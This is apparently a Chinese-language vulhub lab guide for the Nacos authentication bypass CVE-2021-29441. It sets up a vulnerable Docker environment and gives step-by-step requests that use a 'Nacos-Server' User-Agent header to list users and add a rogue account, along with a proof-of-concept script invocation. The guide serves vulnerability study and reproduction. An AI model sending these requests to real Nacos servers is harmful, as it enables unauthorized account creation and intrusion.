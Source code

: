 # Nacos 认证绕过漏洞（CVE-2021-29441）

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 漏洞环境

运行漏洞环境：

```shell
docker-compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。**执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务**

```shell
docker-compose restart nacos

```

## 漏洞利用脚本

```shell

python poc.py http://target:8848

```

![poc](poc.png)

## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub添加一个新用户
4. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9获取已有的用户列表
5. 访问http://target:8848/nacos/，使用添加的新用户(vulhub/vulhub)进行登录

### 检测漏洞是否存在

![1](1.png)
添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200,且内容中是否包含`pageItems`

### 添加新用户

![2](2.png)
添加Header头后使用**POST**方式请求`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户,账号密码都为vulhub

### 使用新建的账号进行登录

![3](3.png)
